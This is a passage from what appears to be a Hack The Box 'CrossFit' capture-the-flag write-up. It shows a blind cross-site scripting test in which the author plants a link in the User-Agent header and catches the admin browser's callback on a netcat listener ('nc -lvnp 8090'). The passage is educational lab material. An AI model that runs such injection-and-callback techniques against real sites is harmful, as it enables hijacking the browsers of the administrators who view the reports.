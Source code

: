 ![](../../.gitbook/assets/2-xss-test-caught-burp.png)

Using Burp I sent a request with a link to my machine in the `User-Agent` field.  I made sure to send the same XSS attempt so this would be forwarded to the admin.

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ nc -lvnp 8090                       
listening on [any] 8090 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.208] 56252
GET / HTTP/1.1
Host: 10.10.15.98:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gym-club.crossfit.htb/security_threat/report.php
Connection: keep-alive
```

I received an HTTP GET request to my waiting netcat listener.  

![](../../.gitbook/assets/2-security-report-denied.png)

In the `Referer` field I saw `/security_threat/report.php` in the response headers, but was not able to access it.  The code in this PHP file must have been what had checked the XSS request I had made, and somehow executed the `<script>` tags I had embedded, while creating the report for the admin.
